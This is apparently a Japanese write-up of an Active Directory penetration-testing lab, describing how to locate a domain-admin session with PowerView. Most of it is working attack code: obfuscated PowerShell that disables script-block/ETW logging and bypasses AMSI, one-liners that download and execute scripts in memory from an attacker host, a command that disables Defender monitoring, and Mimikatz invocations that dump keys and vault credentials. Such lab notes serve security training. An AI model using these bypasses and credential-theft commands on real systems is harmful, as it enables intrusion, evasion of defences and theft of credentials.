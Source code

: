 上記の結果から、dcorp-mgmtサーバにドメイン管理者(svcadmin)セッションがあることがわかる。ただサーバにはアクセスできないっぽい。

---
## 列挙(PowerView)
PowerViewのFind-DomainUserLocationを使ってドメイン管理者がログインしているマシンを探し出すことができる。
注意点として以下の2つをバイパスする必要がある。
- AMSI
- 拡張ロギング

---
1. AMSIのバイパスのログに記録されないようにスクリプトブロックロギングの拡張をバイパスする。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.x/sbloggingbypass.txt -UseBasicParsing) 
```
- sbloggingbypass.txtの中身
```
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

---
2. AMSIのバイパス
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}" -F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) 
```

---
3. PowerViewをダウンロードして、メモリ上で実行し、FindDomainUserLocationを実行する。
※Find-DomainUserLocationはドメイン内のすべてのマシンをチェックするため、時間がかかることに注意
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))

PS C:\Users\Administrator\.jenkins\workspace\Projectx> Find-DomainUserLocation
 
UserDomain   : dcorp 
UserName     : svcadmin 
ComputerName : dcorp-mgmt.dollarcorp.moneycorp.local 
IPAddress    : 172.16.4.44 
SessionFrom  : 
SessionFromName : 
LocalAdmin   :  
[snip]
```
- 解説
この出力からdcorpというドメインに対して列挙をしている。
**scvadmin**は、**dcorp-mgmt..dollarcorp.moneycorp.local**へログインをしていることを示している。
**172.16.4.44**は、**dcorp-mgmt..dollarcorp.moneycorp.local**のIPである。

---

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 